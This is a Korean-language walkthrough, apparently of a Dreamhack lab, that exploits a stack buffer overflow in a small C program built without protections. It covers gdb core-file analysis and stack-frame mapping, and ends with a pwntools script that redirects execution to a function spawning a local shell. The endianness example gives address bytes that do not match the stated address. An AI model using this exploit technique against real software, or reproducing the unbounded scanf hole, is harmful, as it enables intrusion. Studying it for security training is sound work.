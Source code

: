 ## 실습 코드

```c
// Name: rao.c
// Compile: gcc -o rao rao.c -fno-stack-protector -no-pie

#include <stdio.h>
#include <unistd.h>

void init() {
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stdout, 0, 2, 0);
}

void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}

int main() {
  char buf[0x28];
  
  init();
  printf("Input: ");
  scanf("%s", buf);
  
  return 0;
}
```

<br>
<br>

## 1. 분석

### 취약점 분석

main함수에서 scanf("%s", buf)를 보면 입력 길이에 제한 없이 입력을 받고 있습니다. 그래서 오버플로우 공격이 가능합니다.

크기가 0x28 바이트인 버퍼에 입력을 받고 있기 때문에, 0x28 바이트 이상의 데이터를 입력하면 버퍼 오버플로우를 발생시켜서 main 함수의 반환 주소를 덮을 수 있습니다.

C++의 표준함수 중 취약한 함수에는 대표적으로 strcpy, strcat, sprintf, scanf 등이 있습니다.

<br>

### 트리거

발견한 취약점을 확인하는 행위

#

"A"를 5개 입력해보면

```bash
$ ./rao
Input: AAAAA
$
```

프로그램이 정상적으로 종료되었습니다.

#

이번에는 "A"를 64개 입력해보면

```bash
$ ./rao
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

전과 달리 Segmentation fault라는 에러가 출력되며, 프로그램이 비정상적으로 종료되었습니다.

프로그램이 잘못된 주소에 접근했다는 의미이고 버그가 발생했다는 의미입니다.

추가적으로 (core dumped)라는 메시지와 함께 코어 파일이 생성되었는데, 프로그램이 비정상적으로 종료되었을 때 디버깅을 돕기 위한 것입니다.

<br>

### 코어 파일 분석

gdb에는 코어 파일을 분석하는 기능이 있어서 입력이 스택에 어떻게 들어갔는지 확인할 수 있고 쉘을 획득하기 위한 계획을 세울 수 있습니다.

#

 gdb로 코어 파일을 열어보면

```bash
$ gdb -c core -q
[New LWP 52]
Core was generated by `./rao'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x0000000000400729 in ?? ()
```

프로그램의 종료 원인과 어떤 주소의 명령어를 실행하다가 문제가 발생했는지 보여줍니다.

<br>

```bash
gdb-peda$ x/10s $rsp
0x7ffe429d4968: "AAAAAAAA"
0x7ffe429d4971: ""
0x7ffe429d4972: ""
0x7ffe429d4973: ""
0x7ffe429d4974: ""
0x7ffe429d4975: ""
0x7ffe429d4976: ""
0x7ffe429d4977: ""
0x7ffe429d4978: "HJ\235B\376\177"
0x7ffe429d497f: ""
```

스택을 관찰해보면 입력값 중 일부인 AAAAAAAA가 rsp가 가리키는 곳에 저장되어 있습니다.


<br>
<br>

## 2. 익스플로잇

#

### 스택 프레임 구조 파악

스택 버퍼에 오버플로우를 발생시켜서 반환 주소를 덮으려면, 우선 해당 버퍼가 스택 프레임의 어디에 위치하는지 조사해야 합니다.

```bash
// main()
   0x000000000040070b <+35>:    lea    rax,[rbp-0x30]
   0x000000000040070f <+39>:    mov    rsi,rax
   0x0000000000400712 <+42>:    lea    rdi,[rip+0xab]        # 0x4007c4
   0x0000000000400719 <+49>:    mov    eax,0x0
   0x000000000040071e <+54>:    call   0x400570 <__isoc99_scanf@plt>
   0x0000000000400723 <+59>:    mov    eax,0x0
   
gdb-peda$ x/s 0x4007c4
0x4007c4:       "%s"
```

main의 어셈블리 코드에서 scanf 부분을 의사 코드로 표현해보면 `scanf("%s", rbp-0x30)` 가 됩니다.

#

스택 구조를 그려서 파악을 해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/d399c0be-c3da-45dd-8e1a-eeb45f5d97a7/image.png">


buf와 return address 사이에 0x38만큼 떨어져 있기 때문에, 0x38 만큼 쓰레기 값으로 채우고 실행하고자 하는 코드의 주소를 입력하면 실행 흐름을 조작할 수 있습니다.

<br>

### get_shell() 주소 확인

```c
void get_shell() {
  char *cmd = "/bin/sh";
  char *args[] = {cmd, NULL};
  execve(cmd, args, NULL);
}
```

쉘을 실행시켜주는 `get_shell()` 함수가 있기 때문에, `main` 함수의 반환 주소를 `get_shell()` 함수의 주소로 덮으면 쉘을 획득할 수 있습니다.

#

gdb로 `get_shell()` 함수의 주소를 찾아보면

```bash
gdb-peda$ print get_shell
$1 = {<text variable, no debug info>} 0x4006aa <get_shell>
```

`0x4006aa` 가 `get_shell` 함수의 주소입니다.

<br>

### 페이로드 구성

시스템 해킹에서 페이로드는 공격을 위해 전달하는 데이터를 의미합니다.

익스플로잇을 위해 페이로드를 구성해보면

<img src="https://velog.velcdn.com/images/silvergun8291/post/bc69163f-e14b-4de7-a523-22d033225886/image.png">

<br>

### 엔디언 적용

페이로드는 적절한 엔디언을 적용해서 프로그램에 전달해야 합니다.
엔디언은 메모리에서 데이터가 정렬되는 방식으로 리틀 엔디언과 빅 엔디언이 사용됩니다.

MSB(Most Significant Byte) : 가장 왼쪽 바이트
리틀 엔디언: MSB가 가장 높은 주소에 저장됩니다.
빅 엔디언: MSB가 가장 낮은 주소에 저장됩니다.

`0x12345678`
리틀 엔디언 → 78 56 34 12
빅 엔디언 → 12 34 56 78

인텔 x86-64아키텍쳐는 리틀 엔디언을 사용하기 때문에, `get_shell` 함수의 주소는 `“\xa7\x05\x40\x00\x00\x00\x00\x00”`로 변환해서 전달해줘야 합니다.

<br>

### 익스플로잇

```python
from pwn import *

p = process('./rao')

payload = b"A"*0x30
payload += b"B"*0x8
payload += b"\xaa\x06\x40\x00\x00\x00\x00\x00"

p.recvuntil('Input: ')

p.sendline(payload)
p.interactive()
```

익스플로잇 코드를 짜서 공격을 해보면

#

```bash
$ python3 exploit.py
[+] Starting local process './rao': pid 629
[*] Switching to interactive mode
$
```

공격에 성공해서 쉘을 흭득하였습니다.

#

---

<br>

> [Exploit Tech: Return Address Overwrite
](https://dreamhack.io/lecture/courses/58)
